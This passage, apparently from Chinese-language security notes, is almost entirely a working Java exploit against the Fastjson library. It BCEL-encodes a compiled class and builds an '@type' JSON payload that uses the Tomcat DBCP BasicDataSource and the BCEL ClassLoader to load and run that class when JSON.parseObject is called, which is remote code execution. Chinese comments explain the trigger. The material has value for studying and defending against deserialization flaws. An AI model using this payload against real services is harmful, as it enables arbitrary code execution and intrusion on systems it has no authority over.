 ```plain
}
```

#### EXP：

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXPFastJson\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.setDriverClassName("$$BCEL$$"+code);
//        basicDataSource.getConnection();

        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"DriverClassName\":\"$$BCEL$$"+ code +"\",\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";

//      parseObject 是先 parse 后 toJSON，这样我们才能调用 get 方法：getConnection()
        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);
        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }
        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
}
```
